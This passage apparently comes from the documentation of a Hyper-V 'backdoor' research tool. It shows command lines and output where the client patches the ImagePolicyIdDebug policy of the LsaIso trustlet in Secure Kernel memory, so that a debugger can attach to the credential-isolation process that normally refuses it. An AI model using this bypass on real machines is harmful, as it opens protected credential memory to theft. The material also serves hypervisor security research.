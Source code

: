 Trustlet executable image also contains the structure called [Image Policy Metadata](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_image_policy_metadata) that dascribes its capabilities. Among various interesting things it has `ImagePolicyIdDebug` property, it tells the Secure Kernel if it's possible to attach debugger to the trustlet process or not.

From the example above you can see that LSAIso trustlet has `ImagePolicyIdDebug` set to zero, it prevents the attacker from attaching debugger to this process and compromising its memory contents:

```
> C:\Debuggers\x64\cdb.exe -pn LsaIso.exe

Microsoft (R) Windows Debugger Version 10.0.18362.1 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

Cannot debug pid 792, NTSTATUS 0xC0000022
    "{Access Denied}  A process has requested access to an object, but has not been granted those access rights."
Debuggee initialization failed, NTSTATUS 0xC0000022
{Access Denied}  A process has requested access to an object, but has not been granted those access rights.
```

Hyper-V Backdoor client allows to patch `ImagePolicyIdDebug` property of specified trustlet process to allow its debugging:

```
> .\backdoor_client.exe 0 --sk-debug-enable 792
[+] Running on CPU #0
[+] Collecting secure kernel information...
[+] Reading collected data from 0xfffff833df600d80...
[+] Running secure kernel detected, 6 VTL1 calls were made
[+] Secure kernel IDT vector #0 is at 0xfffff800582d7400
[+] securekernel.exe is at 0xfffff80058295000
[+] securekernel.exe image size is 0xf4000 bytes
[+] Secure kernel build number is 10011
[+] securekernel!SkpspProcessList is at 0xfffff8005835b820
[+] SKPROCESS for PID 792 is at 0xffff988010191740
[+] Image policy is at 0x7ff6481a3470
[+] ImagePolicyIdDebug found, current value is 0
[+] Image policy was successfully patched

> C:\Debuggers\x64\cdb.exe -pn LsaIso.exe

Microsoft (R) Windows Debugger Version 10.0.18362.1 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

*** wait with pending attach
Symbol search path is: srv*
Executable search path is:
ModLoad: 00007ff6`48160000 00007ff6`481a6000   C:\Windows\system32\lsaiso.exe
ModLoad: 00007fff`0b040000 00007fff`0b230000   C:\Windows\SYSTEM32\ntdll.dll
ModLoad: 00007fff`0ab10000 00007fff`0abc2000   C:\Windows\SYSTEM32\KERNEL32.DLL
ModLoad: 00007fff`081b0000 00007fff`08453000   C:\Windows\SYSTEM32\KERNELBASE.dll
ModLoad: 00007fff`0ad70000 00007fff`0ae0e000   C:\Windows\system32\msvcrt.dll
ModLoad: 00007fff`07990000 00007fff`079a2000   C:\Windows\system32\iumcrypt.dll
ModLoad: 00007fff`099e0000 00007fff`09a77000   C:\Windows\SYSTEM32\sechost.dll
ModLoad: 00007fff`07960000 00007fff`07988000   C:\Windows\system32\KerbClientShared.dll
ModLoad: 00007fff`07950000 00007fff`0795d000   C:\Windows\system32\NtlmShared.dll
ModLoad: 00007fff`07fb0000 00007fff`07fc2000   C:\Windows\system32\MSASN1.dll
ModLoad: 00007fff`07940000 00007fff`07948000   C:\Windows\system32\IUMBASE.dll
ModLoad: 00007fff`0a4d0000 00007fff`0a5f0000   C:\Windows\system32\RPCRT4.dll
ModLoad: 00007fff`08820000 00007fff`08846000   C:\Windows\system32\bcrypt.dll
ModLoad: 00007fff`07920000 00007fff`07934000   C:\Windows\system32\cryptdll.dll
ModLoad: 00007fff`08510000 00007fff`08527000   C:\Windows\system32\CRYPTSP.dll
ModLoad: 00007fff`07fd0000 00007fff`080ca000   C:\Windows\SYSTEM32\ucrtbase.dll
ModLoad: 00007fff`0a2e0000 00007fff`0a34f000   C:\Windows\system32\WS2_32.dll
```